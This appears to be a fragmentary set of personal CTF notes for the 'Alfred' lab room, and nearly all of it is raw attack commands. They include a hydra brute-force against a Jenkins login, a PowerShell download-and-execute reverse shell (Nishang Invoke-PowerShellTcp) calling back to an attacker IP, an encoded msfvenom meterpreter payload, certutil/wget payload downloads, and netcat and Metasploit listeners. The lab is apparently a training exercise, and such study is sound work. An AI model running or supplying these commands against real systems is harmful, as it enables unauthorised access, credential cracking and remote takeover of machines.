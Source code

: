		
		=>??? wget http://10.11.92.230:8888/Advanced.exe
## Alfred : 
	--> nmap : 
		=> sudo nmap -sS -sV -T5 -Pn 10.10.88.244
		=> 
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	username : password 
		--> hydra :
			sudo hydra -s 8080 -l admin -P /usr/share/wordlists/rockyou.txt 10.10.88.244 http-post-form
				 "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=&Submit=Sign+in:Invalid username or password" -f 

		--> google : default
			admin:admin
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> Invoke-PowerShellTcp.ps1
		--> powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.92.230:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.92.230 -Port 1234
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> python3 -m http.server
		--> sudo nc -lvnp 1234
		--> https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		cd 
		C:/Users/bruce/Desktop
		type user.txt
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> Metasploit
		-->  reverse_shell.exe
			--> msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai -i 10 -f exe LHOST=10.11.92.230 LPORT=6666 -o reverse_shell.exe
			--> unload
				=> certutil -urlcache -f http://10.11.92.230:8000/reverse_shell.exe reverse_shell.exe
				=> wget http://10.11.92.230:8000/reverse_shell.exe
				=> powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.92.230:8000/reverse_shell.exe','reverse_shell.exe')"
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> listen :
			--> msfconsole -qx 'use exploit/multi/handler;set lhost 10.11.92.230;set lport 6666;set payload windows/meterpreter/reverse_tcp;run'

		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> run :	
			=> .\reverse_shell.exe
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		> sysinfo 
			--> os verion: Windows 7 (6.1 Build 7601, Service Pack 1).
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> root(令牌) : 
		-->  UID | GID | Privileges
		